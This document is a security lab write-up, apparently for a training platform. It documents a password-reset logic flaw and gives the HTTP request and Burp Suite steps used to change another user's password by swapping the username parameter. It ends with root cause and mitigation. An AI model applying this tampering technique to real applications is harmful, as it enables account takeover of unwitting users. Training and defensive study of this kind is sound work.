# Lab 3 - Password reset broken logic

## 1. Lab Name
Password reset broken logic

## 2. Vulnerability Type
Broken Authentication (Password Reset Logic Flaw)

## 3. Lab Objective
To exploit flawed password reset functionality and reset another user's password.

## 4. Target Functionality
Password reset mechanism:
`/forgot-password`

## 5. Vulnerable Endpoint
`POST /forgot-password?temp-forgot-password-token=<token>`

## 6. Payload Used
```http
POST /forgot-password?temp-forgot-password-token=<token>

temp-forgot-password-token=<token>&username=carlos&new-password-1=test&new-password-2=test
```

## 7. Exploitation Steps
1. Login as normal user:
   ```
   username: wiener
   password: peter
   ```
2. Open "Forgot Password" page.
3. Enter:
   ```
   wiener
   ```
4. Open Email Client and obtain password reset link.
5. Open reset link.
6. Intercept password reset request using Burp Suite.
7. Send request to Repeater.
8. Observe request body:
   ```http
   temp-forgot-password-token=<token>&username=wiener
   ```
9. Modify:
   ```http
   username=wiener
   ```
   to
   ```http
   username=carlos
   ```
10. Set new password:
   ```http
   new-password-1=test
   new-password-2=test
   ```
11. Send modified request.
12. Login as:
   ```
   username: carlos
   password: test
   ```
13. Lab solved.

## 8. Proof of Exploit
- Password reset token reused
- Username parameter manipulated
- Carlos password successfully changed













## 9. Impact
- Unauthorized password reset
- Full account takeover
- Authentication compromise

## 10. Root Cause
Application trusts user-controlled username parameter during password reset instead of securely binding reset token to a specific account.

## 11. Mitigation / Fix
- Bind reset tokens to specific users server-side
- Ignore client-controlled username parameters
- Validate reset token ownership before password update

## 12. OWASP Mapping
OWASP Top 10 – A07: Identification and Authentication Failures
